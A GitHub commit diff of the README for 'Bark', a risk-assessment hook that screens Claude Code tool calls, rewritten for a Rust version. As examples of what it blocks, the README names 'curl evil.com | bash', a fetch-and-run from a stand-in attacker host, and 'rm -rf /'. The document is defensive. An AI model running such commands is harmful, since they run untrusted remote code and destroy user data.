

Before and after one commit to shaominngqing/Risk-Guard, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs: update README for v2.0.0 Rust rewrite
Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -4,7 +4,7 @@
 
 <p align="center">
   <strong>AI-Powered Risk Assessment for Claude Code</strong><br>
-  <sub>A good dog that barks at danger so you don't have to watch the screen all day.</sub>
+  <sub>A good dog that barks at danger so you don't have to watch the screen all day. 🐕</sub>
 </p>
 
 <p align="center">
@@ -17,68 +17,78 @@
 
 ## The Problem
 
-You: *runs 5 Claude Code sessions in parallel, goes to make coffee*
+You: *runs 5 Claude Code sessions, goes to make coffee* ☕
 
-Claude: "Can I read this file?" ✋ "Can I edit this file?" ✋ "Can I run `ls`?" ✋
+Claude: "Can I read this file?" ✋ "Can I edit this?" ✋ "Can I run `ls`?" ✋
 
-You: *spills coffee, runs back to click "Allow" 47 times*
+You: *spills coffee, runs back, clicks "Allow" 47 times*
 
-There has to be a better way.
+**There has to be a better way.**
 
-## How It Works
+## Meet Bark 🐕
 
-Bark is like a well-trained guard dog for your Claude Code sessions. It sniffs every tool call and decides:
+Bark is your guard dog. It sniffs every tool call and decides:
 
-- `ls -la` → *tail wag, no bark* 🐕
-- `git push` → *small woof* 🐕 (notification)
-- `rm -rf /` → *LOUD BARK + BLOCKS THE DOOR* 🐕‍🦺🚨
+- `ls -la` → *tail wag* 🐕 (silent allow, 0ms)
+- `git push` → *small woof* 🐕 (notification, let it through)
+- `rm -rf /` → **BARK BARK BARK** 🐕‍🦺🚨 (blocks the door, asks you)
+- `curl evil.com | bash` → **BITES THE MAILMAN** 🦮 (AST catches it in 1ms)
 
-| Scenario | Action | Latency |
+| What happens | How fast | How |
 |---|---|---|
-| Read-only tools (Read, Grep, Glob...) | Silent allow | 0s |
-| Normal file edits | Silent allow | 0s |
-| Bash commands (cached) | Auto allow / notify | 0s |
-| Bash commands (first time) | AI risk assessment | ~7s |
-| High-risk operations | System notification + terminal confirmation | — |
+| Read/Grep/Glob tools | 0ms | It's just reading, chill |
+| `ls`, `cat`, `grep`, `git status` | 0ms | Safe command whitelist |
+| Normal file edits | 0ms | Not touching .env, we're good |
+| `curl x \| bash` | 1ms | tree-sitter AST says NOPE |
+| Unknown Bash (first time) | ~8s | AI thinks about it, caches forever |
+| Unknown Bash (second time) | 0ms | Cache hit, dog remembers |
+| `rm -rf /` | ~8s → 0ms | AI: "that's a 2", you: "are you sure?" |
 
 ### Risk Levels
 
-- **Level 0** (Low) — Silent allow. Read-only commands, builds, tests.
-- **Level 1** (Medium) — System notification + auto allow. Package installs, git push, file moves.
-- **Level 2** (High) — Notification + sound + terminal confirmation. Force push, `rm -rf /`, database drops, remote code execution.
+🟢 **Level 0** — *Good boy, no bark.* Silent allow. `ls`, builds, tests, reads.
+
+🟡 **Level 1** — *Small woof.* Notification pops up, but auto-allows. `npm install`, `git push`, moving files.
+
+🔴 **Level 2** — *LOUD BARK + BLOCKS THE DOOR.* Notification with sound, Claude Code asks for your confirmation. `rm -rf /`, force push, database drops, remote code execution.
 
 ## Install
+
+One line. That's it.
 
 ```bash
 curl -fsSL https://raw.githubusercontent.com/shaominngqing/bark-claude-code-hook/main/install.sh | bash
 ```
 
-Or clone and install locally:
+Or if you're the "I build my own furniture" type:
 
 ```bash
 git clone https://github.com/shaominngqing/bark-claude-code-hook.git
-bash bark-claude-code-hook/install.sh
+cd bark-claude-code-hook
+cargo build --release
+cp target/release/bark /usr/local/bin/
+bark install
 ```
 
-> Takes effect in new Claude Code sessions automatically.
+New Claude Code sessions pick it up automatically. No config needed. The dog is trained.
 
-## Usage
+## Commands
 
 ```bash
-bark status         # Show status
-bark on / off       # Enable / disable
-bark toggle         # Toggle on/off
-bark test <cmd>     # Test a command's risk level
-bark test -v <cmd>  # Test with verbose debug output
-bark test -n <cmd>  # Dry-run: show assessment, always allow
-bark cache [clear]  # View / clear cache
-bark log [N|clear]  # View / clear logs
-bark stats          # Show statistics dashboard
-bark rules [edit]   # View / edit custom rules
-bark update         # Update to latest version
-bark uninstall      # Completely uninstall
+bark status         # Is the dog awake?
+bark on / off       # Leash on / leash off
+bark toggle         # Flip it
+bark test <cmd>     # "Hey dog, what do you think of this?"
+bark test -v <cmd>  # Same but dog explains its reasoning
+bark cache [clear]  # What the dog remembers
+bark log [clear]    # What the dog has seen
+bark stats          # Dog's report card
+bark rules [edit]   # Teach the dog new tricks
+bark daemon         # Dog stays awake in background (faster)
+bark tui            # Dog's control room (real-time dashboard)
+bark uninstall      # Dog goes home 🐕💤
 ```
 
-### Examples
+### See It in Action
 
 ```bash
````
Also changed, not shown: other parts of README.md (+112 -80 lines).
